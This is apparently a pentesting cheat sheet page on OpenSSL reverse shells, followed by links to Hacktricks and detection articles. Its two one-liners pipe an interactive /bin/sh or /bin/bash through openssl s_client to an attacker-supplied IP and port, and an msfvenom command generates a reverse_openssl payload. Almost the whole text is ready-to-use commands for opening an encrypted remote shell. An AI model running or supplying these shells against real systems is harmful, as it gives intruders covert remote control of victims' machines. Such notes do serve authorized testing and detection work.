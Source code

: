 # OpenSSL

## 01 - One-liners

```
$ mkfifo /tmp/f; /bin/sh -i < /tmp/f 2>&1 | openssl s_client -quiet -connect <IP>:<PORT> > /tmp/f; rm /tmp/f

$ mkfifo /tmp/f; /bin/bash -i < /tmp/f 2>&1 | openssl s_client -quiet -connect <IP>:<PORT> > /tmp/f; rm /tmp/f
```

## 02 - Generate via `msfvenom`

```
$ msfvenom -p cmd/unix/reverse_openssl handlersslcert=[/path/to/file.pem] sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>
```

---
## References

### Hacktricks

- [Hacktricks: Shells Linux](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/linux.html)

### Rio Asmara Suryadi

- [Rio Asmara Suryadi: OpenSSL for Reverse Shell](https://rioasmara.com/2020/06/22/openssl-for-reverse-shell/)

### Sandfly Security

- [Sandfly Security: Detecting and Investigating OpenSSL Backdoors on Linux](https://www.sandflysecurity.com/blog/detecting-and-investigating-openssl-backdoors-on-linux/)